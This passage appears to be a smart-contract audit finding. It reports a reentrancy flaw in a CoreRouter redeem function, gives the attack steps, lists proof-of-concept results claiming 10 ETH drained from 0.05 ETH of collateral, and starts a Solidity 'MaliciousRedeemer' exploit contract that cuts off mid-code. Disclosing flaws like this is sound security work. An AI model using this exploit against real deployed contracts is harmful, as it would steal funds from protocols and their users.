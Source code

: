 Initiates redeem operation with legitimate lToken balance

Token transfer callback triggers during external call

Callback re-executes redeem function before original state update

Second withdrawal succeeds using same unchanged balance

Process continues until maximum profitable extraction



### Impact

An attacker can drain protocol funds by:

Supplying minimal tokens (e.g. 10 ETH) to establish lToken position
Executing redeem with obtained lTokens
Exploiting transfer callback to re-execute redeem function
Withdrawing additional tokens before balance adjustment occurs
Repeating process until optimal extraction achieved

From my PoC execution:

Initial investment: 50000000000 (0.05 ETH equivalent lTokens)
Pre-exploit balance: 0
Post-exploit balance: 10000000000000000000 (10 ETH)
Net stolen amount: 10000000000000000000 (10 ETH)

The attacker successfully extracted 10 ETH using only 0.05 ETH worth of legitimate collateral.

This vulnerability impacts the entire protocol ecosystem because:

It depletes protocol liquidity reserves
Prevents legitimate user withdrawals due to insufficient funds
Creates potential protocol insolvency scenarios
Requires no special permissions or privileges to execute


### PoC

Create this exploit contract:
```solidity
pragma solidity 0.8.23;

import {CoreRouter} from "../../src/LayerZero/CoreRouter.sol";
import {IERC20} from "@openzeppelin/contracts/token/ERC20/IERC20.sol";

contract MaliciousRedeemer {
    CoreRouter public targetRouter;
    address public targetLToken;
    uint256 public withdrawAmount;
    uint256 public callCounter;
    address public underlyingAsset;

    constructor(address payable _router) {
        targetRouter = CoreRouter(_router);
    }

    function executeExploit(address _lToken, uint256 _amount, address _asset) external {
        targetLToken = _lToken;
        withdrawAmount = _amount;
        underlyingAsset = _asset;
        callCounter = 0;
        // Execute initial redeem with legitimate balance
        CoreRouter(targetRouter).redeem(_amount, payable(_lToken));
    }

    receive() external payable {
        if (callCounter < 1) {
```